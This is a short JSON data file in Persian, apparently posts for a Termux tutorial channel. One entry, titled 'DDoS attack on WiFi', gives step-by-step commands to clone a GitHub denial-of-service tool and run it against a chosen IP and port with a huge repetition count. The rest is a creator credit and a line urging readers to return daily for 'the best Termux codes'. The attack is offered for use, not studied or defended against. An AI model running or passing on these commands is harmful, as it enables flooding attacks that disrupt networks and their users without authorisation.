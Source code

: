 [
  {
    "متن": "آموزش آنلاین",
    "ایدی": "سازنده:ALi135"
  },
  {
    "متن": "آموزش 2: اتک دیداس به وایفا",
    "ایدی": " کد های زیر را در ترموکس وارد کنید
git clone https://github.com/Hydra7/Planetwork-DDOS
cd Planetwork-DDOS
python2 pntddos.py [ip wifi] [port] 999999"
  },
  {
    "متن": "یک پست روسی و عالی برای شما کاربران عزیز و برای عذرخواهی این یک روز اختلال در سرور",
    "ایدی": "برای دریافت آموزشات و بهترین کد های ترموکس هر روز به این صفحه سر بزنید"
  }
]

